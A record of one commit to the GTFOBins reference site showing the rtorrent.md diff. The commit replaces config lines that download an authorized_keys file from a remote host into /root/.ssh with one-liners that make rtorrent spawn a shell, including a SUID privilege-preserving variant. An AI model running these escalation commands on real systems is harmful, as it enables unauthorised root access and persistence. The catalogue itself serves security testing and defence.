

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/rtorrent.md, in a window 1280 px wide. Shown: the top 783 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Make rtorrent a proper shell

```diff
--- a/_gtfobins/rtorrent.md
+++ b/_gtfobins/rtorrent.md
@@ -1,18 +1,11 @@
 ---
-description: a BitTorrent client for ncurses.
 functions:
-  file-write:
+  shell:
     - code: |
-        cat >> ~/.rtorrent.rc <<EOF
-        execute.throw = mkdir,/root/.ssh
-        execute.throw = wget,http://$RHOST:$RPORT/$RFILE,-O,/root/.ssh/authorized_keys
-        EOF
+        echo "execute = /bin/sh,-c,\"/bin/sh <$(tty) >$(tty) 2>$(tty)\"" >~/.rtorrent.rc
         rtorrent
   suid:
     - code: |
-        cat >> ~/.rtorrent.rc <<EOF
-        execute.throw = mkdir,/root/.ssh
-        execute.throw = wget,http://$RHOST:$RPORT/$RFILE,-O,/root/.ssh/authorized_keys
-        EOF
+        echo "execute = /bin/sh,-p,-c,\"/bin/sh -p <$(tty) >$(tty) 2>$(tty)\"" >~/.rtorrent.rc
         ./rtorrent
 ---
```
